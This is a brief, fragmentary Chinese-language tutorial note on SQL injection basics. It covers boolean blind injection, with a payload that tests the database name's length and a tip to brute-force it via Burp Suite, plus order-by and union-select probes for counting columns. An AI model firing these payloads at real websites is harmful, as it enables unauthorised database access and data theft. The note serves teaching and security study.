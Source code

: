 ## sql注入基础
### 1. sql布尔型blind注入
当页面不返回任何数据库查询信息时，比如只返回操作正确或者错误，此时需要选择盲注来确定数据的内容和长度。

#### 确定内容长度
`1' and if(length(database())=5,1,0)--`
此语句表示如果database()的长度为5 则返回1 反之返回0。
如果需要快速得到内容长度，可以通过burpsuite抓包后直接进行爆破。





SCHEMATA 表
INNODB_SYS_TABLES 
INNODB_SYS_COLUMNS  

** 判断字段数

\# 备注 table1中有3个字段,如果order by后不是3 语句都会报错
select * from table1 where id='1' order by 3;
1' union select 1,2,3 --